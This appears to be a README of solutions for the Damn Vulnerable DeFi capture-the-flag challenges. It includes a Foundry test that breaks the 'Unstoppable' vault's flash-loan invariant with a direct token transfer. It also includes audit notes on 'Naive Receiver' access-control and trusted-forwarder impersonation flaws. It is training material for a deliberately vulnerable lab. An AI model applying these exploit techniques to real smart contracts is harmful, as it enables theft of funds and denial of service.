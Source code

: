 # CTF-Defi
Damn Vulnerable DeFi CTF challenges
## 1. Unstoppable
Test file solution:
```
    function test_unstoppable() public checkSolvedByPlayer {
       
        token.transfer(address(vault),1e18);
        vm.expectRevert("UNAUTHORIZED");
        monitorContract.checkFlashLoan(100e18);

    }
```

core attack on:
```
convertToShares(totalSupply) != balanceBefore
```
## 2. Naive Receiver
In ```FlashLoanReceiver.sol``` line-15:
```
//@audit-issue access control problem, it ignores the first address which is essentially the initiator of the flash loan
// This means that anyone can request flash loans on behalf of this contract and make it pay the fee to the pool
```
In ```NaiveReceiverPool.sol``` line-87:
```
// @audit-issue We can craft a transaction that comes from the trusted forwarder and since we control the msg.data,
// We can make sure the last 20 bytes are any account that we wish to control.
// That way we can impersonate accounts and perform the withdraw function on their behalf
```
